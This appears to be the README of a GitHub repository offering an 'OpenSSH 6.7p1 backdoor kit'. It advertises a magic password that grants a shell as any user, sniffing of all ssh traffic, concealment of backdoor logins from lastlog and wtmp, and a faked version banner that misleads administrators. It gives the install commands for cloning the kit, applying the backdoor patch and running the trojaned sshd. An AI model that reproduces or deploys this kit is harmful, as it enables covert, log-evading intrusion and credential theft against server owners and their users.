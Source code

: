# OpenSSH 6.7p1 backdoor kit

## coded by bl0w. bl0w@koresec.org

## Features:

 - magic password to get shell with any user (encrypted or no)
 - sniffs all in/out from ssh/sshd, log file encrypted or no.
 - you can chose directory of log decryptor and directory of sniff-logs.
 - all connections accepted by backdoor wont logged by lastlog/wtmp/udp.
 - simple setup, just setup.sh!
 - fake banner and fake version, if admin do ssh -v or sshd -v banner will be faked! :~

## Get started:
## Follow instructions, it`s very easy!

```bash
$ apt-get install -y libpam0g-dev
$ wget http://www.mirrorservice.org/pub/OpenBSD/OpenSSH/portable/openssh-6.7p1.tar.gz
$ tar -xzvf openssh-6.7p1.tar.gz
$ cd openssh-6.7p1
$ git clone https://github.com/jivoi/openssh-backdoor-kit.git
$ cp -v openssh-backdoor-kit/* ./
$ patch -p1 < backdoor.patch
$ sh setup.sh
```

## You can manually start:

```bash
$ /etc/init.d/ssh stop
$ /root/openssh-6.7p1/sshd -dd -f /etc/ssh/sshd_config
```